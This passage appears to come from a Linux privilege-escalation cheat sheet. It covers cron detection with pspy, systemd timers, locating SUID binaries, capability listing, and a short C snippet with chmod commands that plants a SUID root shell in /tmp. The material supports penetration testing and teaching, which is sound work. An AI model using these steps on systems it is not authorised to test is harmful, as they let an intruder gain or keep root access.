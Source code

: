 You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

    # print both commands and file system events and scan procfs every 1000 ms (=1sec)
    ./pspy64 -pf -i 1000

## Systemd timers

    systemctl list-timers --all
    NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
    Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
    Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
    Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
    
    3 timers listed.

## SUID

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is ran, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

    ╭─swissky@lab ~  
    ╰─$ ls /usr/bin/sudo -alh                  
    -rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo

### Find SUID binaries

    find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    find / -uid 0 -perm -4000 -type f 2>/dev/null

### Create a SUID binary

    print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
    gcc -o /tmp/suid /tmp/suid.c  
    sudo chmod +x /tmp/suid # execute right
    sudo chmod +s /tmp/suid # setuid bit

## Capabilities

### List capabilities of binaries

    ╭─swissky@lab ~  
    ╰─$ /usr/bin/getcap -r  /usr/bin
    /usr/bin/fping                = cap_net_raw+ep
    /usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
    /usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
    /usr/bin/rlogin               = cap_net_bind_service+ep
    /usr/bin/ping                 = cap_net_raw+ep
    /usr/bin/rsh                  = cap_net_bind_service+ep
    /usr/bin/rcp                  = cap_net_bind_service+ep
